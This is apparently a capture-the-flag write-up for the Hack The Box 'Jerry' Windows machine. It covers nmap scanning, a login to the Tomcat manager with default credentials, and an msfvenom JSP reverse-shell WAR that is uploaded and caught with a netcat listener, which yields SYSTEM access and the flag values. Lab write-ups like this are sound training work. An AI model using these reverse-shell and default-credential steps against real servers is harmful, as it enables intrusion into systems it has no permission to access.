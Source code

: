 ```yaml
---
title: "Jerry"
url: "/writeups/hackthebox/jerry/"
summary: jerry
tags:
- hackthebox
- windows
- tomcat
- war
---
```


![Jerry](/Jerry.png)

## Scanning
### nmap
Started with an nmap scan:
* TCP all ports
```bash
kali@kali:~/ctf/htb/machines/jerry$ sudo nmap -T4 -p- 10.10.10.95 -oA nmap/tcp_all_ports
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 16:35 EDT
Nmap scan report for 10.10.10.95
Host is up (0.018s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```
* TCP with scripts against found ports
```bash
kali@kali:~/ctf/htb/machines/jerry$ sudo nmap -sCV -p8080 10.10.10.95 -oA nmap/tcp_scripts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 16:37 EDT
Nmap scan report for 10.10.10.95
Host is up (0.021s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
Only one port found, which is 8080 and looks to be an HTTP Apache Tomcat server, so it can be opened in a web browser.
```
## Enumeration
### Web Page
Looks to be a default Apache Tomcat page:
![Jerry](/jerry-apache_tomcat_page.png)
Using one of the default credentials found, `tomcat:s3cret`, logging into the Manager App section of the website is easy.
![Jerry](/jerry-apache_tomcat_manager.png)
Looking further down on the page, it looks like a WAR file can be uploaded and deployed to the server.
![Jerry](/jerry-deploy_war_file.png)

## Exploitation
Knowing that it takes a war file, a war file reverse shell can be created to upload and attempted to execute

### File Upload
Created the reverse shell war file using msfvenom
```bash
kali@kali:~/ctf/htb/machines/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f war > reverse.war
```
Now to upload the war file
![Jerry](/jerry-deploy_war_file2.png)
After selecting Deploy it can now be see in the Path column under Applications
![Jerry](/jerry-reverse_shell_path.png)

### Reverse Shell
Now to start a netcat listener to catch the reverse shell after executing it
```bash
kali@kali:~/ctf/htb/machines/jerry$ nc -lvnp 4444
listening on [any] 4444 ...
```
After selecting the /reverse path from the Path column under Applications, a reverse shell is returned as the nt authority\system user
```bash
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>hostname
hostname
JERRY
```
## Flags
With access as nt authority\system, no privilege escalation is needed, and both flags can be retrieved
```bash
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

